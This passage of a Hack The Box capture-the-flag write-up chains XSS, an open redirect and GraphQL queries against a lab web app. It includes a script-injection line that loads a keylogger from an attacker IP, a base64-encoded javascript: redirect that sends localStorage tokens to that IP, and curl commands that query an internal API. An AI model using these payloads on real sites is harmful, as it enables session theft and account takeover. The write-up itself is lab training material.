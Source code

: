 Still, I couldn't get the admin token because the execution context must be `internal.graph.htb` and not `graph.htb`.

The localstorage is not shared, and the [technique using `<iframe>`][share-localstorage] tags did not work for me.

I also looked up the author and saw a [blog post about a similar XSS][xss-blogpost], but the keylogger idea is not relevant here.

```javascript
var r=document.createElement("script");r.src="http://10.10.16.4:8888/keylogger.js";document.head.appendChild(r);var x=;
```

### Scripting each step

The whole exfiltration process involves 2 actions.

#### Getting the admin user id

```shell
bash payloads/get_userid.sh Mark
# 629a92724c761106406708ca
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Host: internal-api.graph.htb' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"variables\": {\"username\": \"'"$@"$'\"}, \"query\": \"query($username: String!){\\n tasks(username: $username){\\n Assignedto\\n username\\n text\\n taskstatus\\n type\\n}\\n}\"}' \
    $'http://internal-api.graph.htb/graphql' |
perl -ne $'m#"Assignedto":"([a-fA-F0-9]+)"# && print $1."\n"'
```

#### Redirecting the admin user

First, encode the payloads and include it in the open redirect:

```shell
PAYLOAD=$(echo -n "$@" | base64 -w 0)
echo 'http://graph.htb/?redirect=javascript:eval(atob("'"${PAYLOAD}"'"));'
```

For some reason, the "=" padding needs to be removed for JS to decode the payload:

```
http://graph.htb/?redirect=javascript:alert(atob("ZmV0Y2goImh0dHA6Ly8xMC4xMC4xNi40Ojk5OTkvP3N0b3JhZ2U9IitidG9hKEpTT04uc3RyaW5naWZ5KGxvY2FsU3RvcmFnZSkpKQ"))
```

Then it can be pasted in the messaging panel.

#### Updating the admin profile

The redirect is used to take advantage of the SSTI on the user profile. The SSTI payload is planted after updating the admin profile with GraphQL:


[author-profile]: https://app.hackthebox.com/users/172213
[disabled-dashboard]: images/disabled-dashboard.png
[hackerone-tiktok]: https://hackerone.com/reports/1062888
[internal-registration]: images/interal-registration.png*
[local-storage]: images/local-storage.png
[pat-ffmpeg]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
[registration-otp]: images/registration-otp.png
[share-localstorage]: https://stackoverflow.com/questions/4026479/use-localstorage-across-subdomains
[upload-form]: images/upload-form.png
[xss-blogpost]: https://xclow3n.github.io/bugBounty/myFirstBounty.html